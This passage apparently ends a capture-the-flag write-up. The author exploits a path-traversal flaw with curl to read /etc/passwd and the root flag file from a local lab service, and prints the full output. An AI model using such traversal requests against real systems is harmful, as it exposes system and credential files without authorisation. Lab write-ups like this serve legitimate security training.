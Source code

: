Only `assets` available.

let's see. I'll use a simple curl command as described in the article above.
```bash
curl -s --path-as-is "http://localhost:8081/assets/../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

This worked, let's see if I can read out the root flag as well.
```bash
curl -s --path-as-is "http://localhost:8081/assets/../../../../../root/root.txt"
6930a83f0aed513031b9e79314e09076

```
EASY
Rooted
